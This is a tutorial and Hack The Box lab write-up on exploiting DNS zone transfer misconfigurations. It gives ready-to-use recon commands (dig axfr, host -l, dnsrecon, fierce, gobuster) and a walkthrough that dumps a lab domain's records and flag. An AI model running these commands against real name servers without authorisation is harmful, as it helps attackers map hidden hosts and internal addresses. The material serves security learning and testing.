

## 1. DNS Zone Transfer

A DNS zone transfer copies all DNS records of a domain and its subdomains from one name server to another. This ensures consistency and redundancy across DNS servers. However, if not properly secured, unauthorized users can download the entire zone file, exposing a full list of subdomains, IP addresses, and other sensitive DNS data.

**Why Does a DNS Zone Transfer Happen?**:

DNS zone transfers are crucial for keeping multiple DNS servers in sync. When a domain has multiple authoritative name servers, they need to share the same DNS records to provide accurate and consistent responses. Zone transfers ensure that secondary (backup) DNS servers receive updates from the primary DNS server, helping with:
- **Redundancy**: If one DNS server goes down, others can still resolve domain queries.
- **Load Balancing**: Multiple DNS servers can handle queries efficiently.
- **Faster Updates**: Changes to DNS records propagate across all authoritative servers.



The **zone transfer process** occurs as follows:
1. **Zone Transfer Request (AXFR):** The secondary DNS server requests a full zone transfer from the primary server.
2. **SOA Record Transfer:** The primary server responds with its Start of Authority (SOA) record, helping the secondary server verify if its data is up to date.
3. **DNS Records Transmission:** The primary server sends all DNS records (A, AAAA, MX, CNAME, NS, etc.) to the secondary server.
4. **Zone Transfer Complete:** The primary server signals the completion of the transfer.
5. **Acknowledgement (ACK):** The secondary server confirms successful receipt, completing the process.


## 2. The Zone Transfer Vulnerability

Zone transfers are crucial for DNS management, but a misconfigured server can become a security risk if unauthorized users can request transfers.

**Security Issue:**
In the early days of the internet, any client could request a zone transfer, exposing sensitive DNS data to attackers.

**Information Leaked:**
- **Subdomains:** Hidden subdomains hosting dev servers, staging environments, or admin panels.
- **IP Addresses:** Associated IPs, useful for reconnaissance or attacks.
- **Name Server Records:** Details about authoritative name servers, revealing hosting providers and misconfigurations.

**Exploiting Zone Transfers:** use the `dig` command to request a zone transfer. Example:

```bash

$ dig axfr @nsztm1.digi.ninja zonetransfer.me
```

This command instructs `dig` to request a full zone transfer (`axfr`) from the DNS server responsible for `zonetransfer.me`. If the server is misconfigured and allows the transfer, you'll receive a complete list of DNS records for the domain, including all subdomains:

```bash
$ dig axfr @nsztm1.digi.ninja zonetransfer.me

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr @nsztm1.digi.ninja zonetransfer.me
; (1 server found)
;; global options: +cmd
zonetransfer.me.	7200	IN	SOA	nsztm1.digi.ninja. robin.digi.ninja. 2019100801 172800 900 1209600 3600
zonetransfer.me.	300	IN	HINFO	"Casio fx-700G" "Windows XP"
zonetransfer.me.	301	IN	TXT	"google-site-verification=tyP28J7JAUHA9fw2sHXMgcCC0I6XBmmoVi04VlMewxA"
zonetransfer.me.	7200	IN	MX	0 ASPMX.L.GOOGLE.COM.
...
zonetransfer.me.	7200	IN	A	5.196.105.14
zonetransfer.me.	7200	IN	NS	nsztm1.digi.ninja.
zonetransfer.me.	7200	IN	NS	nsztm2.digi.ninja.
_acme-challenge.zonetransfer.me. 301 IN	TXT	"6Oa05hbUJ9xSsvYy7pApQvwCUSSGgxvrbdizjePEsZI"
_sip._tcp.zonetransfer.me. 14000 IN	SRV	0 0 5060 www.zonetransfer.me.
14.105.196.5.IN-ADDR.ARPA.zonetransfer.me. 7200	IN PTR www.zonetransfer.me.
asfdbauthdns.zonetransfer.me. 7900 IN	AFSDB	1 asfdbbox.zonetransfer.me.
asfdbbox.zonetransfer.me. 7200	IN	A	127.0.0.1
asfdbvolume.zonetransfer.me. 7800 IN	AFSDB	1 asfdbbox.zonetransfer.me.
canberra-office.zonetransfer.me. 7200 IN A	202.14.81.230
...
;; Query time: 10 msec
;; SERVER: 81.4.108.41#53(nsztm1.digi.ninja) (TCP)
;; WHEN: Mon May 27 18:31:35 BST 2024
;; XFR size: 50 records (messages 1, bytes 2085)
```

**Notice**: `zonetransfer.me` is a service specifically setup to demonstrate the risks of zone transfers so that the dig command will return the full zone record.

---

## 3. In a nutshell

Misconfigured DNS servers sometimes allow anyone to request **Zone Transfer** — leaking all hostnames, subdomains, and IPs.

---

### Using `dig` (most common)

```bash
# Basic syntax
dig axfr @<dns-server> <domain>

# Example
dig axfr @ns1.example.com example.com

# If the server is the target itself
dig axfr @10.10.10.10 example.com
```

---

### Using `host`

```bash
host -t axfr example.com ns1.example.com

# Or just list all records
host -l example.com ns1.example.com
```

---

### Using `nslookup` (Windows-friendly)

```bash
nslookup
> server ns1.example.com
> set type=any
> ls -d example.com
```

---

### Using `fierce` (automated recon tool)

```bash
fierce --domain example.com
```

---

### Using `dnsrecon`

```bash
dnsrecon -d example.com -t axfr
```

---

### Using `dnsenum`

```bash
dnsenum example.com
```

---

### What a Successful Transfer Looks Like

```
; <<>> DiG 9.16 <<>> axfr @ns1.example.com example.com
example.com.        300  IN  SOA   ns1.example.com. ...
example.com.        300  IN  NS    ns1.example.com.
mail.example.com.   300  IN  A     10.10.10.5
vpn.example.com.    300  IN  A     10.10.10.8
dev.example.com.    300  IN  A     10.10.10.12     # <-- juicy
internal.example.com. 300 IN A    192.168.1.1      # <-- internal range leak
```

You're looking for: subdomains, internal IPs, mail servers, dev/staging servers.

---

### CTF Workflow

```bash
# 1. Find the nameserver first
dig ns <domain>

# 2. Attempt zone transfer against each NS
dig axfr @<nameserver> <domain>

# 3. If blocked, try subdomain brute-force instead
gobuster dns -d example.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

---

### Why It Works (When It Does)

| Scenario | Result |
|---|---|
| Server properly configured | `Transfer failed` — connection refused |
| Misconfigured server | Full zone dump returned |
| CTF / lab environment | Almost always intentionally misconfigured |

---

**Key takeaway:** In real-world engagements, zone transfers are rarely allowed anymore, but they're a **very common CTF vector** — always try it early in recon when you see a DNS service. If it fails, fall back to `gobuster dns` or `ffuf` for subdomain enumeration.


## 4. Example

- **Target: 10.129.229.147**
- **vHost: inlanefreight.local**


After nmap scan, we found:
```
53/tcp   open  domain   (unknown banner: 1337_HTB_DNS)
| dns-nsid: 
|_  bind.version: 1337_HTB_DNS
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    1337_HTB_DNS
```

- Port 53 is open with a juicy banner: 1337_HTB_DNS — that's your hint.


### Step 1 — Find the Nameserver / Domain

```bash
# Query the DNS server directly for NS records
dig ns inlanefreight.local @10.129.229.147

# Also try SOA record
dig soa inlanefreight.local @10.129.229.147
```

---

### Step 2 — Attempt Zone Transfer

```bash
dig axfr inlanefreight.local @10.129.229.147
```

Since this is HTB and the banner is intentionally named `1337_HTB_DNS`, this will almost certainly succeed and dump all records.

---

### Step 3 — Also Try Subdomains

HTB boxes often have multiple zones. Try:

```bash
dig axfr @10.129.229.147 inlanefreight.local
dig axfr @10.129.229.147 htb.local
dig axfr @10.129.229.147 localhost
```

### In look in CTF

```                                                           
┌──(kali㉿kali)-[~/Desktop/HTB/AtckOnEnterprise]
└─$ dig ns inlanefreight.local @10.129.229.147

; <<>> DiG 9.20.20-1-Debian <<>> ns inlanefreight.local @10.129.229.147
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 34429
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 012a546c93993c020100000069cf519fca815a1ee995d076 (good)
;; QUESTION SECTION:
;inlanefreight.local.           IN      NS

;; ANSWER SECTION:
inlanefreight.local.    86400   IN      NS      inlanefreight.local.

;; ADDITIONAL SECTION:
inlanefreight.local.    86400   IN      A       127.0.0.1

;; Query time: 536 msec
;; SERVER: 10.129.229.147#53(10.129.229.147) (UDP)
;; WHEN: Fri Apr 03 01:35:39 EDT 2026
;; MSG SIZE  rcvd: 106

```

```                                                                                      
┌──(kali㉿kali)-[~/Desktop/HTB/AtckOnEnterprise]
└─$ dig soa inlanefreight.local @10.129.229.147

; <<>> DiG 9.20.20-1-Debian <<>> soa inlanefreight.local @10.129.229.147
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16076
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 29a9b1cdd82d1de70100000069cf51b70d9c06fb3fa701b6 (good)
;; QUESTION SECTION:
;inlanefreight.local.           IN      SOA

;; ANSWER SECTION:
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400

;; Query time: 264 msec
;; SERVER: 10.129.229.147#53(10.129.229.147) (UDP)
;; WHEN: Fri Apr 03 01:36:03 EDT 2026
;; MSG SIZE  rcvd: 143
```

                                                                                      
```
┌──(kali㉿kali)-[~/Desktop/HTB/AtckOnEnterprise]
└─$ dig axfr inlanefreight.local @10.129.229.147

; <<>> DiG 9.20.20-1-Debian <<>> axfr inlanefreight.local @10.129.229.147
;; global options: +cmd
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.    86400   IN      NS      inlanefreight.local.
inlanefreight.local.    86400   IN      A       127.0.0.1
blog.inlanefreight.local. 86400 IN      A       127.0.0.1
careers.inlanefreight.local. 86400 IN   A       127.0.0.1
dev.inlanefreight.local. 86400  IN      A       127.0.0.1
flag.inlanefreight.local. 86400 IN      TXT     "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN    A       127.0.0.1
ir.inlanefreight.local. 86400   IN      A       127.0.0.1
status.inlanefreight.local. 86400 IN    A       127.0.0.1
support.inlanefreight.local. 86400 IN   A       127.0.0.1
tracking.inlanefreight.local. 86400 IN  A       127.0.0.1
vpn.inlanefreight.local. 86400  IN      A       127.0.0.1
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
;; Query time: 560 msec
;; SERVER: 10.129.229.147#53(10.129.229.147) (TCP)
;; WHEN: Fri Apr 03 01:36:42 EDT 2026
;; XFR size: 14 records (messages 1, bytes 448)
```
---
